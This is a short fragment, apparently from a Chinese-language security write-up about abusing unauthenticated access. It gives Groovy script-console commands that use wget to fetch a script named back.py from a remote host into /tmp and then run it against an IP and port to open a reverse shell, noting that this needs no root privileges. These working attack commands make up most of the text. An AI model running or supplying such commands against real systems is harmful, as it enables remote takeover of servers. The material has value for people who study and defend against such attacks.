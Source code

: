 ![](../pictures/notauthority4.png)   


直接 wget 下载 back.py 反弹 shell  
```
println "wget http://xxx.secpulse.com/tools/back.py -P /tmp/".execute().text
println "python /tmp/back.py 10.1.1.111 8080".execute().text
```
back.py 并不需要 root 权限  